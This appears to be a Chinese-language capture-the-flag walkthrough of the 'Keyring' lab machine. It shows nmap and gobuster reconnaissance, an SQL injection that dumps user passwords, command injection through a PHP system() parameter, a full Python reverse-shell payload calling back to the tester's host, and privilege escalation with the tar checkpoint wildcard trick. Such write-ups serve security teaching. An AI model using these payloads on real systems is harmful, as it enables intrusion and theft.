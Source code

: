 #### 信息收集

1. 主机发现: nmap -sn -PE -n 192.168.1.0/24
   192.168.1.71是新增加的ip，为靶机
2. 端口扫描：nmap -sT --min-rate -p- 192.168.1.71
   PORT   STATE SERVICE
   22/tcp open  ssh
   80/tcp open  http
3. 获取详细服务信息，操作系统版本：nmap -sT -sV -p22,80 -O 192.168.1.71
   PORT   STATE SERVICE VERSION22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
   OS details: Linux 3.2 - 4.9
4. 目录爆破，同时查看80端口

##### sql注入查询ssh用户密码

1. 80端口是一个登录界面，注册账号登陆，文件为index.php，此时再次进行目录爆破，(-x 指定后缀)
   gobuster dir -u http://192.168.1.71 -x html,php,bak,txt -w /usr/share/dirbuster/wordlists/
   默认页面的文件外，还有histort.php文件
2. 来到history.php文件发现什么也没有，登出后访问得到，can't find this user's activity，登陆后访问什么也没有，联系到control.php的提示，http参数污染，说明是缺少了什么参数，activity没效果，user=jkl(我注册的)，出现了如下：

   ```
   Pages visited by user jkl

   home

   home

   about

   home

   about

   home

   home
   ```
3. 将你输入的用户名显示到了页面上，可能存在sql注入，将注册的其他账户逐个输入，只要是注册了，都有显示，应该是单引号注入，order by，`jkl%27%20order%20by%201--+`，正常，order by 2，页面空白，联合查询，逐个查询得到以下结果：

   ```
   users

   name,password

   admin,john,wky,www,wwww

   myadmin#p4szw0r4d,Sup3r$S3cr3t$PasSW0RD,123456,12345678,1111
   ```
4. 接着输入admin和john用户查询，admin用户页面：https://github.com/cyberbot75/keyring，访问得到源码
5. control.php中有一个显眼的 `system($_GET['cmdcntr']);`，立刻去尝试cmdntr执行系统命令，失败了，切换admin用户执行，成功
6. 反弹shell

   ```
   kali : nc -nlvp 8888
   web: http://192.168.1.71/control.php?cmdcntr=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.1.53%22,8888));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
   ```

   拿到网站权限，提高shell交互性 `python3 -c 'import pty; pty.spawn("/bin/bash")'`

#### 提权

1. 查看有哪些用户，cat /etc/passwd，有john用户，切换用户
2. 进入家目录，发现compress文件，且具有suid权限，执行，目录下多了一个archive.tar压缩包，下载到kali
   `scp ./archive.tar kali@192.168.1.53:/home/kali/Desktop `，解压得到还是compress，再拖到windows，用ida分析 ，看到了这条命令

   `/bin/tar cf archive.tar *`，c创建压缩包，*表示当前目录下的所有文件，将当前目录下的所有文件压缩成 `archive.tar`压缩包

   ```
   一个命令执行时，比如说 ls user.txt password.txt，当user.txt文件名为"-l"时，ls -l password.txt 就会造成文件被当作参数来执行，利用此特性，在当前目录下创建--checkpoint=1，每写入n项记录进行一次检查点操作，--checkpoint-action=exec "/bin/bash"，检查点操作为/bin/bash
   ```
3. 执行命令后拿到root权限

```
[ Keyring - Rooted ]
---------------------------------------------------
Flag : VEhNe0tleXIxbmdfUjAwdDNEXzE4MzEwNTY3fQo=
---------------------------------------------------
by infosecarticles with <3
```
